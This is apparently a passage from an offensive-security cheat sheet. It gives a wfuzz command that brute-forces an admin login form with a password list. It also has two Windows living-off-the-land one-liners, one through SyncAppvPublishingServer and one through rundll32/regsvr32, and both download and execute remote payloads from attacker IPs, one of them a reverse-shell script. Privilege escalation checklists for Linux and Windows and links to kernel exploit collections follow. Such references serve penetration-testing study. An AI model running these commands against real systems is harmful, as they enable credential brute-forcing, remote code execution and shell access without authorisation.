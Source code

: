```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

<pre>SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://192.168.48.129:8000/reverse.ps1') | IEX"</pre>

![lolbin1](https://user-images.githubusercontent.com/7115563/40776727-ee904d00-64cb-11e8-8921-407581b13edf.png)

<b>rundll32</b>

<pre>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("regsvr32 /s /n /u /i:http://192.168.48.130:8080/bhRxgASz0.sct scrobj.dll")</pre>


<a name="privesc"></a><h2> Privilege Escalation</h2>


<a name="linux"></a><h3> Linux Privilege Escalation </h3>

- sudo -l
- Kernel Exploits
- OS Exploits
- Password reuse (mysql, .bash_history, 000-default.conf...)
- Known binaries with suid flag and interactive (nmap)
- Custom binaries with suid flag either using other binaries or with command execution
- Writable files owned by root that get executed (cronjobs)
- MySQL as root
- Vulnerable services (chkrootkit, logrotate)
- Writable /etc/passwd
- Readable .bash_history
- SSH private key
- Listening ports on localhost
- /etc/fstab
- /etc/exports
- /var/mail
- Process as other user (root) executing something you have permissions to modify
- SSH public key + Predictable PRNG
- apt update hooking (Pre-Invoke)
- Capabilities

<a name="windows"></a><h3> Windows Privilege Escalation </h3>

- Kernel Exploits
- OS Exploits
- Pass The Hash
- Password reuse
- DLL hijacking (Path)
- Vulnerable services
- Writable services binaries path
- Unquoted services
- Listening ports on localhost
- Registry keys


<a name="kernel"></a><h3> Kernel Exploits </h3>

Linux: https://github.com/lucyoa/kernel-exploits

Windows: https://github.com/abatchy17/WindowsExploits



<a name="tunneling"></a><h2>Tunneling & Port Forwarding</h2>
```